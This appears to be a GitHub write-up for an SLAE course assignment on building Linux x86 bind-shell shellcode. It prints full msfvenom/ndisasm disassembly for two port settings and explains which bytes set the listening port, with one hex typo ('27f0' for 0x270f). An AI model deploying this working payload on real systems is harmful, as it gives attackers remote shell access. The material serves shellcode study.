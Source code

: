 # Assignment 1

## What to do 

• Create a Shell_Bind_TCP shellcode 
   
    – Binds to a port 
   
    – Execs Shell on incoming connection 

• Port number should be easily configurable

## Solution

The easiest solution is to obtain the disassembled code from the bind_tcp_shell from Metasploit.

      sudo msfvenom -p linux/x86/shell_bind_tcp LPORT=8888 -b "\x00" -i 0 -f raw |ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  5B                pop ebx
      00000010  5E                pop esi
      00000011  52                push edx
      00000012  68020022B8        push dword 0xb8220002
      00000017  6A10              push byte +0x10
      00000019  51                push ecx
      0000001A  50                push eax
      0000001B  89E1              mov ecx,esp
      0000001D  6A66              push byte +0x66
      0000001F  58                pop eax
      00000020  CD80              int 0x80
      00000022  894104            mov [ecx+0x4],eax
      00000025  B304              mov bl,0x4
      00000027  B066              mov al,0x66
      00000029  CD80              int 0x80
      0000002B  43                inc ebx
      0000002C  B066              mov al,0x66
      0000002E  CD80              int 0x80
      00000030  93                xchg eax,ebx
      00000031  59                pop ecx
      00000032  6A3F              push byte +0x3f
      00000034  58                pop eax
      00000035  CD80              int 0x80
      00000037  49                dec ecx
      00000038  79F8              jns 0x32
      0000003A  682F2F7368        push dword 0x68732f2f
      0000003F  682F62696E        push dword 0x6e69622f
      00000044  89E3              mov ebx,esp
      00000046  50                push eax
      00000047  53                push ebx
      00000048  89E1              mov ecx,esp
      0000004A  B00B              mov al,0xb
      0000004C  CD80              int 0x80

Once we have it, we need to find the place where the PORT is injected. We locate it by changing the LPORT variable when running metasploit and comparing both outputs.

      sudo msfvenom -p linux/x86/shell_bind_tcp LPORT=9999 -b "\x00" -i 0 -f raw |ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  5B                pop ebx
      00000010  5E                pop esi
      00000011  52                push edx
      00000012  680200270F        push dword 0xf270002
      00000017  6A10              push byte +0x10
      00000019  51                push ecx
      0000001A  50                push eax
      0000001B  89E1              mov ecx,esp
      0000001D  6A66              push byte +0x66
      0000001F  58                pop eax
      00000020  CD80              int 0x80
      00000022  894104            mov [ecx+0x4],eax
      00000025  B304              mov bl,0x4
      00000027  B066              mov al,0x66
      00000029  CD80              int 0x80
      0000002B  43                inc ebx
      0000002C  B066              mov al,0x66
      0000002E  CD80              int 0x80
      00000030  93                xchg eax,ebx
      00000031  59                pop ecx
      00000032  6A3F              push byte +0x3f
      00000034  58                pop eax
      00000035  CD80              int 0x80
      00000037  49                dec ecx
      00000038  79F8              jns 0x32
      0000003A  682F2F7368        push dword 0x68732f2f
      0000003F  682F62696E        push dword 0x6e69622f
      00000044  89E3              mov ebx,esp
      00000046  50                push eax
      00000047  53                push ebx
      00000048  89E1              mov ecx,esp
      0000004A  B00B              mov al,0xb
      0000004C  CD80              int 0x80

We can see that the position where the code is different is 

      00000012  68020022B8        push dword 0xb8220002 (b822 in litte endian is 22b8 which is 8888 in decimal)

      00000012  680200270F        push dword 0xf270002 (0f27 in litte endian is 27f0 which is 9999 in decimal)

So, we only need to modify this line every time we want to change the listening port. 

To do that easily, you can use compile_bind_shell.sh. It asks to the user the filename and the port that will be set to the final binary.

The steps that follows the shell before it starts to listen, can be followed here: 
![alt text](https://github.com/MrSquid25/SLAE/blob/master/Assignment%201/bindshell.png)
